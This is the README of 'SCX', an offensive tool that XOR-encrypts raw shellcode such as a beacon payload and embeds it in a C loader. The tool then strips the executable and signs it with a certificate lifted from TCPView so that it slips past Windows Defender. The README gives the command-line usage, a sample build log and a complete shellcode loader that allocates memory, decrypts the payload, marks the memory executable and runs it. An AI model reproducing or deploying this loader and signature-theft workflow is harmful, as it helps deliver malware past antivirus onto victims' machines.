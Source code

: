 # SCX

Convert raw binary files to XOR'd shellcode and embed into a C template. This template is then compiled with the opportunity to `strip` and `sign` the file. See the details section further down!

## Help
```
usage: scx.py [-h] -l  -b  [-k] [-n] [--x64] [--sign] [--strip]

Build XOR'd shellcode executables.

optional arguments:
  -h, --help        show this help message and exit
  -l , --language   Language for payload (c, cs and powershell)
  -b , --binary     Raw file to encrypt
  -k , --key        Key to encrypt with (random by default)
  -n , --name       Name of executable (random by xor_beacon_*.exe)
  --x64             Set compiler to x64
  --sign            Sign with TCPView's Certificate
  --strip           Strip Binary
```

## Sample

Command:

```bash
./scx.py -b beacon.bin -k '2483c6ed59fc549b0db9571c09193edb' --sign --strip -l c
```

```
  ██████  ▄████▄  ▒██   ██▒
▒██    ▒ ▒██▀ ▀█  ▒▒ █ █ ▒░
░ ▓██▄   ▒▓█    ▄ ░░  █   ░
  ▒   ██▒▒▓▓▄ ▄██▒ ░ █ █ ▒ 
▒██████▒▒▒ ▓███▀ ░▒██▒ ▒██▒ Author: mez0
▒ ▒▓▒ ▒ ░░ ░▒ ▒  ░▒▒ ░ ░▓ ░ GitHub: https://github.com/mez-0
░ ░▒  ░ ░  ░  ▒   ░░   ░▒ ░
░  ░  ░  ░         ░    ░  
      ░  ░ ░       ░    ░  
         ░                 

09/09/20, 21:01:51 ==> Architecture: x64
09/09/20, 21:01:51 ==> Key: 2483c6ed59fc549b0db9571c09193edb
09/09/20, 21:01:51 ==> Compiling with: x86_64-w64-mingw32-gcc ./result/xor_beacon_x64.c -o ./result/xor_beacon_x64.exe

09/09/20, 21:01:52 ==> Compiled: ./result/xor_beacon_x64.exe
09/09/20, 21:01:52 ==> Stripped: ./result/xor_beacon_x64.exe
09/09/20, 21:01:52 ==> Signed: ./result/xor_beacon_signed_x64.exe
```

## Installing
```
sudo apt install gcc-mingw-w64 mono-mcs
```

## The details
`scx` was named before I wanted to do AES encryption, originally it was `ShellcodeXor`, hence: `Scx`. Since the initial script I started adding `cs` and `PowerShell`, but didnt get around to doing it (so that PR is welcome!).

So, what this tool does is take a raw bin file, `xor` it and chuck it in [template](https://github.com/mez-0/scx/tree/master/templates). This is typically enough for Windows Defender, but I ended up wrapping some additional features. First off, I randomised the source code to look something like this:

```c
#include <windows.h>

typedef BOOL (WINAPI* fSWoKckHxLOKtdZH)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef LPVOID (WINAPI* fFzRzXJHdsn)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD  flProtect);
typedef VOID (WINAPI* MhEgqVvJJjCtlP)(VOID UNALIGNED* Destination,const VOID UNALIGNED* Source, SIZE_T Length);

int main(void) {
  DWORD oldprotect = 0;
  char ClxeFNxbo[] = { 0x91, 0x81, 0xe1, 0x68, 0x61, 0x65, 0xc, 0xe4, 0x8c, 0x52, 0xa8, 0x5, 0xee, 0x3c, 0x5d, 0xe2, 0x31, 0x64, 0xea, 0x37, 0x78, 0xe6, 0x1b, 0x4b, 0x67, 0xd6, 0x2f, 0x4a, 0x5c, 0x96, 0xcf, 0x54, 0x0, 0x19, 0x6e, 0x41, 0x49, 0xa2, 0xa7, 0x6c, 0x64, 0xab, 0x8f, 0x9b, 0x31, 0x3f, 0xea, 0x37, 0x7c, 0xe6, 0x23, 0x5f, 0xe3, 0x2d, 0x74, 0x14, 0x8e, 0x21, 0x62, 0xb9, 0x30, 0xee, 0x35, 0x4d, 0x68, 0xb0, 0xe3, 0x28, 0x7d, 0x8f, 0x57, 0x20, 0xe8, 0x5c, 0xea, 0x64, 0xba, 0x5c, 0x96, 0xcf, 0xa9, 0xae, 0x68, 0x6d, 0xaa, 0x51, 0x83, 0x1d, 0x97, 0x66, 0x11, 0x95, 0x52, 0x1e, 0x4c, 0x14, 0x81, 0x34, 0xe6, 0x31, 0x47, 0x69, 0xb2, 0x3, 0xe7, 0x61, 0x22, 0xe8, 0x30, 0x7d, 0x64, 0xbf, 0xe6, 0x6d, 0xe8, 0x69, 0xb1, 0xec, 0x28, 0x49, 0x4d, 0x38, 0x33, 0x0, 0x3c, 0x36, 0x3c, 0x96, 0x83, 0x37, 0x3e, 0x3f, 0xe7, 0x7f, 0x82, 0xee, 0x35, 0xb, 0x64, 0xe1, 0xe8, 0xdb, 0x63, 0x68, 0x61, 0x35, 0x4, 0x5c, 0xe2, 0xc, 0xef, 0x9e, 0xb0, 0xd7, 0x9d, 0xdc, 0xc1, 0x3e, 0x9, 0xc3, 0xf9, 0xd0, 0xf4, 0x9c, 0xbd, 0x5d, 0x63, 0x10, 0x67, 0xe9, 0x98, 0x88, 0x14, 0x60, 0xd7, 0x2a, 0x7a, 0x11, 0x7, 0xb, 0x65, 0x3f, 0x92, 0xbc, 0x0, 0x9, 0xd, 0x6, 0x42, 0x8, 0x11, 0x6, 0x68 };
  
  char key[] = "michael";

  char hanDsXQ[sizeof ClxeFNxbo];

  int j = 0;

  for (int i = 0; i < sizeof ClxeFNxbo; i++) {
    if (j == sizeof key - 1) j = 0;
    hanDsXQ[i] = ClxeFNxbo[i] ^ key[j];
    j++;
  }

  fSWoKckHxLOKtdZH WHvHcFwxKyvQlsV = (fSWoKckHxLOKtdZH)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualProtect");
  fFzRzXJHdsn qiPSRCVqjtEliB = (fFzRzXJHdsn)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");
  MhEgqVvJJjCtlP AzLBPqsgwntXdKWN = (MhEgqVvJJjCtlP)GetProcAddress(GetModuleHandle("Ntdll.dll"), "RtlMoveMemory");

  LPVOID pAddress = qiPSRCVqjtEliB(0, sizeof hanDsXQ, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  AzLBPqsgwntXdKWN(pAddress, hanDsXQ, sizeof hanDsXQ);

  BOOL isUpdated = WHvHcFwxKyvQlsV(pAddress, sizeof hanDsXQ, PAGE_EXECUTE_READ, &oldprotect);

  if (isUpdated != 0) {
    ((void(*)())pAddress)();
  }
  return 0;
}
```

At the top, I began obfuscating the Windows API Calls but didn't get around to encrypting the strings. Again, another PR welcome! Later on I ended up wrapping [strip](https://sourceware.org/binutils/docs/binutils/strip.html) to remove symbols and object files. Finally, I introduced the work of [@ausernamedjosh](https://twitter.com/ausernamedjosh) and his [SigThief](https://github.com/secretsquirrel/SigThief) project. Full kudos to him for that code. In his words:

> In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file.

For this, I borrowed [get_file_info_win](https://github.com/secretsquirrel/SigThief/blob/211b4fe0b2f2ac5e4fd71c99c96f1bfcbcd322dc/sigthief.py#L12) and [signfile](https://github.com/secretsquirrel/SigThief/blob/211b4fe0b2f2ac5e4fd71c99c96f1bfcbcd322dc/sigthief.py#L191). The signature in this project is from [TCPView](https://github.com/mez-0/scx/blob/master/lib/sig/Tcpview.exe_sig).

Full credit to [@ausernamedjosh](https://twitter.com/ausernamedjosh) on that.

## Todo

1. Finish off C# template by embedding AES Encrypted blobs.
2. Use that c# template to the be execute via PowerShell to create something remotely triggerable
3. Finish off encrypting the strings for the C implementation
